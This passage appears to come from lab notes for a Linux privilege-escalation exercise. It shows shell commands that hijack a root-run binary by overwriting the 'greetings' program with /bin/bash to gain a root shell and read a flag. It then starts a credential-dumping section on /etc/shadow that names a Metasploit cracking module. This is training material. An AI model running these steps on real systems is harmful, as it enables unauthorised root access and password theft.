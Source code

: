```shell
file welcome
./greetings # We don't have the permission for this binary
# But we have for
./welcome
```

Investigate the binary. The most easy or preliminary way of doing that is to use strings command.

```shell
strings welcome
# We can see 'greetings' that it calls upon the greeting binery which is very interesting
```

Observe the greetings strings in the output of the strings command. It is possible that welcome binary is calling greetings binary. So, replace the greetings binary with some other binary (say /bin/bash) which should then also get executed as root.

```shell
# Delete greetings binary and then copy /bin/bash to its location and rename that to greetings.
rm greetings
cp /bin/bash greetings
ls

# Then, run the welcome binary again.
./welcome # Execute the bash with root privileges
id
whoami
```

Student user got escalate to root user. Retrieve the flag kept in /root directory.

```shell
ls
cat flag
```

<br>

## 3. Linux Credential Dumping

### 3.1. Password Cracker: Linux

All account information for users on a Linux system is stored in the `/etc/passwd` file. While this file contains user details, it does not display actual passwords since they are encrypted. Additionally, the `passwd` file is readable by any user on the system, meaning it does not store sensitive password data directly, but only the root user can modify it.

Passwords are stored in /etc/shadow, which is readable only by root.

- `/etc/shadow` → This file contains hashed passwords for all local users.
- `/etc/passwd` → Holds basic user info, but not the actual password hashes.

**Objective**: Run the following auxiliary module against the target:
- auxiliary/analyze/crack_linux

**Gain access to the system**
